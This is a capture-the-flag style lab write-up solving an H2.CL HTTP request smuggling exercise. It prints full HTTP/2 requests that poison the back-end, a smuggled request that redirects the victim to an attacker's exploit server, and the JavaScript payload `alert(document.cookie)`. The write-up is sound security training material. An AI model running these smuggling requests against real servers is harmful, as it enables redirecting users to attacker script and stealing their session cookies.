

# H2.CL request smuggling
# Objective
This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, perform a request smuggling attack that causes the victim's browser to load and execute a malicious JavaScript file from the exploit server, calling `alert(document.cookie)`. The victim user accesses the home page every 10 seconds.

# Solution
## Analysis
### Request to /resources
Attacker `Host` header is reflected in redirect response message while requesting `/resources`.
||
|:--:| 
| *Request to /resources* |
||
| *Redirection* |


### Poisoning back-end
First request poisoned the back-end. Second (the same request) was added to the end of the previous request thanks to `Content-Length: 0`. This confirms `H2.CL` vulnerability.

```
POST / HTTP/2
Host: 0a5a006a04a7655785a88b6d008f00b3.web-security-academy.net
Cookie: session=wcYxUySHQexCQUKTGwOBot4mNIMqC3FM
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

POISON
```
||
|:--:| 
| *Back-end was poisoned* |

## Exploitation
Using the above redirection attacker can redirect victim to his exploit server, where he stores malicious payload (in this case javascript `alert(document.cookie)`).
Payload:
```
POST / HTTP/2
Host: 0a20007e0416675882d470e9003200a4.web-security-academy.net
Cookie: session=zLJ76xnX5TmXKHu8aQ0X7WEKuyHAOSLl
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Content-Length: 0

GET /resources HTTP/1.1
Host: exploit-0a590054048f67fd82646fb001f1002b.exploit-server.net
Content-Length: 5

x=1
```

Exploit server payload:
```
alert(document.cookie);
```

||
|:--:| 
| *Request was smuggled successfuly* |
||
| *Request was smuggled successfuly (follow redirections was turned on)* |
||
| *Exploit server setup* |
||
| *Exploit server logs* |